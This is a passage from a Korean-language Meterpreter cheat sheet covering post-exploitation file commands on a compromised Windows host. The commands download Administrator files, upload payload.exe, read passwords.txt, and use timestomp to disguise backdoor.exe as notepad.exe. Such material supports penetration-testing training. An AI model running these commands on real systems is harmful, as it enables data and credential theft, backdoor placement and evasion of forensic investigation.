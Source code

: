 ## 파일 시스템 조작

### 기본 파일 작업

```bash
# 현재 디렉토리 확인
meterpreter > pwd

# 디렉토리 변경
meterpreter > cd C:\\Users\\Administrator

# 파일 목록 보기
meterpreter > ls
meterpreter > dir

# 파일 상세 정보
meterpreter > ls -la

# 파일 다운로드
meterpreter > download C:\\Users\\Administrator\\Desktop\\important.txt /tmp/

# 파일 업로드
meterpreter > upload /tmp/payload.exe C:\\temp\\

# 파일 검색
meterpreter > search -f *.txt -d C:\\Users\\
```

### 고급 파일 작업

```bash
# 파일 내용 보기
meterpreter > cat C:\\Users\\Administrator\\Desktop\\passwords.txt

# 파일 편집
meterpreter > edit C:\\temp\\config.txt

# 파일 삭제
meterpreter > rm C:\\temp\\malware.exe

# 디렉토리 생성
meterpreter > mkdir C:\\temp\\tools

# 디렉토리 삭제
meterpreter > rmdir C:\\temp\\old_folder

# 파일 타임스탬프 변경
meterpreter > timestomp C:\\temp\\backdoor.exe -f C:\\Windows\\System32\\notepad.exe
```

## 프로세스 관리
